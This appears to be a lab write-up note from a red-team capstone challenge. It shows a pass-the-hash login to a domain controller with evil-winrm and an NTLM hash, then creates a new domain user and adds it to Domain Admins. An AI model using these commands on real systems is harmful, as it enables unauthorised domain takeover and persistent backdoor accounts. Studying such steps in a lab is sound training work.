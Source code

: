 
$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![Dumping secrets from CORPDC-20240602155726615.webp](app://aada9d56eb98c8801394b98c13978398694d/media/sf_obsidian/Red%20Team%20Capstone%20Challenge/Images/Dumping%20secrets%20from%20CORPDC-20240602155726615.webp?1717358246568)

You'll get a shell.  
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![Dumping secrets from CORPDC-20240602160026969.webp](app://aada9d56eb98c8801394b98c13978398694d/media/sf_obsidian/Red%20Team%20Capstone%20Challenge/Images/Dumping%20secrets%20from%20CORPDC-20240602160026969.webp?1717358426958)

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos  
Password: K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![Dumping secrets from CORPDC-20240604135830320.webp](app://aada9d56eb98c8801394b98c13978398694d/media/sf_obsidian/Red%20Team%20Capstone%20Challenge/Images/Dumping%20secrets%20from%20CORPDC-20240604135830320.webp?1717523911003)

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information

The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![Dumping secrets from CORPDC-20240604140856658.webp](app://aada9d56eb98c8801394b98c13978398694d/media/sf_obsidian/Red%20Team%20Capstone%20Challenge/Images/Dumping%20secrets%20from%20CORPDC-20240604140856658.webp?1717524537015)

**Next step:** [[RDP to CORPDC]]

